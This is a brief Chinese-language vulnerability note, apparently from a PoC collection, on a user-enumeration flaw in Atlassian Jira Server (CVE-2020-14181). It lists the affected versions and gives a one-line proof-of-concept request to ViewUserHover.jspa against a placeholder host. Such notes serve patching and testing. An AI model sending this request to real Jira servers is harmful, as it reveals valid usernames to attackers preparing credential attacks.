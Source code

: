 # Atlassian Jira Server用户枚举(CVE-2020-14181)

> 2020.10

## #影响范围

version < 7.13.6
8.0.0 ≤ version < 8.5.7
8.6.0 ≤ version < 8.12.0

## #Poc

```
http://x.x.x.x/secure/ViewUserHover.jspa?username=test
```
